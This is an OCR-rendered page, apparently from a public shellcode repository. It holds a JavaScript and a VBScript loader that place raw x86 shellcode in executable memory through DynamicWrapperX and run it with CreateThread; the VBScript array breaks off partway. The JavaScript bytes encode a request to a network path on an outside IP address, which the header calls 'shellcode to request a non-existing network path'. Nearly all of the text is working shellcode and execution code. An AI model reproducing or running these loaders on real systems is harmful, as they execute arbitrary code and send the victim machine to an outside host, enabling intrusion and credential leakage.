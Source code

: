 ```
0xc2, 0xc3, 0x8d, 0x41, 0xf8, 0xc3, 0x55, 0x8b, 0xec, 0x83, 0xec, 0x14, 0x53, 0x56, 0x57, 0x89, 0x4d, 0xf4, 0x64, 0xa1,
0x30, 0x05, 0x05, 0x05, 0x89, 0x45, 0xfc, 0x8b, 0x45, 0xfc, 0x8b, 0x40, 0x0c, 0x8b, 0x40, 0x14, 0x89, 0x45, 0xec, 0x8b,
0xf8, 0x8b, 0xcf, 0xe8, 0xd2, 0xff, 0xff, 0xff, 0x8b, 0x70, 0x18, 0x8b, 0x3f, 0x85, 0xf6, 0x74, 0x4f, 0x8b, 0x46, 0x3c,
0x8b, 0x5c, 0x30, 0x78, 0x85, 0xdb, 0x74, 0x44, 0x8b, 0x4c, 0x33, 0x0c, 0x03, 0xce, 0xe8, 0x96, 0xff, 0xff, 0xff, 0x8b,
0x4c, 0x33, 0x20, 0x89, 0x45, 0xf8, 0x33, 0xc0, 0x03, 0xce, 0x89, 0x4d, 0xf0, 0x89, 0x45, 0xfc, 0x39, 0x44, 0x33, 0x18,
0x76, 0x22, 0x8b, 0x0c, 0x81, 0x03, 0xce, 0xe8, 0x75, 0xff, 0xff, 0xff, 0x03, 0x45, 0xf8, 0x39, 0x45, 0xf4, 0x74, 0x1c,
0x8b, 0x45, 0xfc, 0x8b, 0x4d, 0xf0, 0x40, 0x89, 0x45, 0xfc, 0x3b, 0x44, 0x33, 0x18, 0x72, 0xde, 0x3b, 0x7d, 0xec, 0x75,
0x9c, 0x33, 0xc0, 0x5f, 0x5e, 0x5b, 0xc9, 0xc3, 0x8b, 0x4d, 0xfc, 0x8b, 0x44, 0x33, 0x24, 0x8d, 0x04, 0x48, 0x0f, 0xb7,
0x0c, 0x30, 0x8b, 0x44, 0x33, 0x1c, 0x8d, 0x04, 0x88, 0x8b, 0x04, 0x30, 0x03, 0xc6, 0xeb, 0xdf, 0x21, 0x05, 0x05, 0x05,
0x50, 0x05, 0x05, 0x05, 0x6b, 0x65, 0x72, 0x6e, 0x65, 0x6c, 0x33, 0x32, 0x2e, 0x64, 0x6c, 0x6c, 0x05, 0x2f, 0x2f, 0x33,
0x35, 0x2e, 0x31, 0x36, 0x34, 0x2e, 0x31, 0x35, 0x33, 0x2e, 0x32, 0x32, 0x34, 0x2f, 0x61, 0x61, 0x05];

var scLocation = DX.VirtualAlloc(0, sc.length, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 
for(var i = 0; i < sc.length; i++) DX.NumPut(sc[i],scLocation,i);
var thread = DX.CreateThread(0,0,scLocation,0,0);
```

[https://github . com/OsandaMalith/Shellcodes/blob/master/create file/create file . js](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.js)

# VBScript

```
' Author : Osanda Malith Jayathissa ([@OsandaMalith](http://twitter.com/OsandaMalith))
' Title: Shellcode to request a non-existing network path
' Website: [https://osandamalith.com](https://osandamalith.com)
' Shellcode : [https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)
' Based on subTee's JS: [https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04](https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04)

Set DX = CreateObject("DynamicWrapperX")
DX.Register "kernel32.dll", "VirtualAlloc", "i=luuu", "r=u"
DX.Register "kernel32.dll","CreateThread","i=uullu","r=u"
DX.Register "kernel32.dll", "WaitForSingleObject", "i=uu", "r=u"

Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40

shellcode = Array( _
&He8, &Hff, &Hff, &Hff, &Hff, &Hc0, &H5f, &Hb9, &H55, &H03, &H02, &H02, &H81, &Hf1, &H02, &H02, &H02, &H02, &H83, &Hc7, _
&H1d, &H33, &Hf6, &Hfc, &H8a, &H07, &H3c, &H05, &H0f, &H44, &Hc6, &Haa, &He2, &Hf6, &He8, &H05, &H05, &H05, &H05, &H5e, _
&H8b, &Hfe, &H81, &Hc6, &H29, &H01, &H05, &H05, &Hb9, &H02, &H05, &H05, &H05, &Hfc, &Had, &H01, &H3c, &H07, &He2, &Hfa, _
&H56, &Hb9, &H8d, &H10, &Hb7, &Hf8, &He8, &H5f, &H05, &H05, &H05, &H68, &H31, &H01, &H05, &H05, &Hff, &Hd0, &Hb9, &He0, _ 
&H53, &H31, &H4b, &He8, &H4e, &H05, &H05, &H05, &Hb9, &Hac, &Hd5, &Haa, &H88, &H8b, &Hf0, &He8, &H42, &H05, &H05, &H05, _
&H6a, &H05, &H68, &H80, &H05, &H05, &H05, &H6a, &H03, &H6a, &H05, &H6a, &H01, &H68, &H05, &H05, &H05, &H80, &H68, &H3e, _
```